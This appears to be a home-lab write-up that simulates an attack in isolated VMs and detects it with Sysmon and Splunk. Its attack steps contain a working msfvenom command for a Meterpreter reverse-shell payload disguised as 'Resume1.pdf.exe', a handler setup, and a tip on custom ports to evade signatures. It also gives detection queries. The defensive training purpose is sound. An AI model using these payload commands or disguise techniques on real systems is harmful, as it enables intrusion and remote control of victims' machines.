









# SOC Home Lab — Attack Simulation & Detection

**Category**: Home Lab / SOC Analysis  
**Date**: June 2026  
**Status**: Completed ✅

---

## Overview

Built a fully functional SOC home lab simulating a real 
attacker-victim scenario. Created a Meterpreter reverse 
shell payload, delivered it to a Windows victim machine, 
established a live shell session, and captured the full 
attack telemetry in Splunk with 3,723 events generated.

---

## Lab Architecture
┌─────────────────────┐         ┌──────────────────────┐
│   Kali Linux VM     │         │  Windows 10 Pro VM   │
│   (Attacker)        │◄───────►│  (Victim + Monitor)  │
│   192.168.20.10     │         │  192.168.20.12       │
│                     │         │                      │
│   Tools:            │         │  Tools:              │
│   - Metasploit      │         │  - Splunk Enterprise │
│   - MSFvenom        │         │  - Sysmon            │
│   - Python HTTP     │         │  - inputs.conf       │
└─────────────────────┘         └──────────────────────┘
│                            │
└────────────────────────────┘
Internal Network
(mynet)


> Both VMs attached to "mynet" — completely isolated from 
> internet, safe to run attack tools

---

## Why Windows 10 Pro

Windows 10 Home lacks Group Policy features and full 
event log support needed for a proper SOC lab. Windows 
10 Pro provides complete Sysmon and Splunk integration.

---

## Setup Steps

### Step 1 — Network Configuration

Created isolated internal network named "mynet" in 
VirtualBox. Both VMs configured with static IPs so 
they can communicate without any internet exposure.

**Kali Linux (attacker):**
IP: 192.168.20.10
Subnet: 255.255.255.0

**Windows 10 Pro (victim):**
Right click network icon → Network Settings
→ Change adapter options → Ethernet → Properties
→ IPv4 Properties → Use following IP address:
IP: 192.168.20.12
Subnet: 255.255.255.0

**Verified with ping:**
```bash
# From Windows VM
ping 192.168.20.10
# Successful reply confirms connectivity
```

---

### Step 2 — Sysmon Installation and Configuration

Sysmon captures detailed endpoint telemetry that 
default Windows logs miss completely.

Key events Sysmon provides:
- Event ID 1 — Process creation with full command line
- Event ID 3 — Network connections with IP and port
- Event ID 11 — File creation
- Event ID 13 — Registry modifications
- Event ID 22 — DNS queries

```powershell
# Install Sysmon with SwiftOnSecurity config
sysmon64.exe -accepteula -i sysmonconfig.xml
```

---

### Step 3 — Splunk Configuration

**Created endpoint index:**
Settings → Indexes → New Index
Name: endpoint
Type: Events


> Showing "endpoint" index being created

**Configured inputs.conf to ingest Sysmon logs:**

Location:
C:\Program Files\Splunk\etc\system\local\inputs.conf


> Showing full configuration with all event sources

Key configuration blocks:
```ini
[WinEventLog://Microsoft-Windows-Sysmon/Operational]
index = endpoint
disabled = false
renderXml = true
source = XmlWinEventLog:Microsoft-Windows-Sysmon/Operational

[WinEventLog://Microsoft-Windows-Windows Defender/Operational]
index = endpoint
disabled = false

[WinEventLog://Microsoft-Windows-PowerShell/Operational]
index = endpoint
disabled = false

[WinEventLog://Security]
index = endpoint
disabled = false

[WinEventLog://System]
index = endpoint
disabled = false
```

**Verified endpoint index is active:**


> Splunk indexes showing "endpoint" status as Active alongside other system indexes

---

### Step 4 — Payload Creation

Created Meterpreter reverse TCP payload disguised as 
a job application document using double extension 
technique — a common social engineering method.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp \
LHOST=192.168.20.10 \
LPORT=4444 \
-f exe \
-o Resume1.pdf.exe
```


> MSFvenom command executing on Kali terminal creating Resume1.pdf.exe

**Why double extension works:**
Windows hides known file extensions by default.
`Resume1.pdf.exe` appears as `Resume1.pdf` to 
the victim — looks like a harmless document.

---

### Step 5 — Payload Delivery

Started Python HTTP server on Kali to serve the 
payload file to the Windows victim machine:

```bash
python3 -m http.server 9999
```

From Windows VM browser:
http://192.168.20.10:9999/Resume1.pdf.exe


> Browser on Windows VM showing directory listing with Resume.pdf.exe and Resume1.pdf.exe available for download


> Python HTTP server terminal showing 192.168.20.12 (Windows VM) successfully downloading Resume1.pdf.exe with HTTP 200 response

---

### Step 6 — Metasploit Listener

Set up multi/handler on Kali before payload execution:

```bash
msfconsole

use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.20.10
set LPORT 4444
exploit
```

**Result after payload executed on Windows VM:**
[] Started reverse TCP handler on 192.168.20.10:4444
[] Sending stage (232006 bytes) to 192.168.20.12
[*] Meterpreter session 1 opened
(192.168.20.10:4444 → 192.168.20.12:50423)
at 2026-06-08 08:46:14


> Metasploit terminal showing successful Meterpreter session with shell access and ipconfig output confirming victim machine IP 192.168.20.12

**Full shell access confirmed:**
- Windows Version: 10.0.19045.3803
- User: moham
- Machine IP: 192.168.20.12 confirmed

---

### Step 7 — Attack Telemetry in Splunk

Switched to Splunk on Windows VM after attack.

```splunk
index="endpoint"
```

**Result: 3,723 events captured**


> Splunk showing 3,723 events in endpoint index with Security and Sysmon events visible

**Key fields visible in events:**
- Account_Domain
- Account_Name  
- ComputerName: DESKTOP-5VNVIUQ
- EventCode
- Source: WinEventLog:Security

**Queries to find the attack specifically:**

```splunk
# Find the malicious process
index=endpoint EventCode=1 
Image="*Resume1.pdf.exe*"

# Find the C2 network connection
index=endpoint EventCode=3 
DestinationIp=192.168.20.10 
DestinationPort=4444

# Full attack timeline
index=endpoint 
| timechart count by EventCode

# See all processes spawned
index=endpoint EventCode=1
| table _time, Image, CommandLine, ParentImage
| sort _time
```

---

## Full Attack Chain Summary

MSFvenom creates Resume1.pdf.exe on Kali
↓
Python HTTP server serves payload on port 9999
↓
Victim downloads file from browser
↓
Victim executes Resume1.pdf.exe
↓
Meterpreter reverse TCP connects to 192.168.20.10:4444
↓
Attacker gets full shell — runs ipconfig, whoami etc
↓
Sysmon captures every event (process, network, file)
↓
Splunk ingests 3,723 events — attack fully visible


---

## Detection Opportunities

Every step of this attack left detectable evidence:

| Attack Step | Detection Method | Splunk Query |
|-------------|-----------------|--------------|
| Payload download | Sysmon Event 11 file creation | `EventCode=11 FileName="*pdf.exe*"` |
| Payload execution | Sysmon Event 1 process creation | `EventCode=1 Image="*pdf.exe*"` |
| C2 connection | Sysmon Event 3 network connection | `EventCode=3 DestinationPort=4444` |
| Shell commands | Sysmon Event 1 cmd.exe child | `EventCode=1 ParentImage="*meterpreter*"` |

---

## Key Lessons Learned

**Double extension is still effective:**
Resume1.pdf.exe looks like a PDF to most users. 
Windows hiding extensions makes this worse.
Detection: Alert on process creation where image 
contains two extensions.

**Port 4444 is a red flag:**
Default Metasploit port. Any outbound connection 
to port 4444 from an endpoint should alert immediately.
In real environments use custom ports to avoid 
signature detection.

**inputs.conf is foundational:**
Without proper inputs.conf configuration Splunk 
ingests nothing useful. Getting this right is the 
most important step in any Splunk deployment.

**Sysmon fills critical gaps:**
Default Windows Security logs showed logon events.
Sysmon showed process creation, network connections, 
and file activity — everything needed to reconstruct 
the full attack timeline.

---

## Tools Used

| Tool | Version | Purpose |
|------|---------|---------|
| VirtualBox | Latest | Virtualization |
| Kali Linux | 2024 | Attacker machine |
| Windows 10 Pro | 10.0.19045 | Victim + monitoring |
| Sysmon | Latest | Endpoint telemetry |
| Splunk Enterprise | 10.2.0 | SIEM |
| MSFvenom | Built-in | Payload generation |
| Metasploit | Built-in | Attack framework |
| Python | 3.x | HTTP payload server |

---

## What I Will Add Next

- [ ] Splunk alert that fires automatically on port 4444 
      outbound connection
- [ ] Custom SOC dashboard showing attack timeline
- [ ] Additional scenarios: privilege escalation, 
      credential dumping detection
- [ ] Elastic SIEM as alternative to Splunk
- [ ] Network traffic analysis with Zeek alongside Sysmon
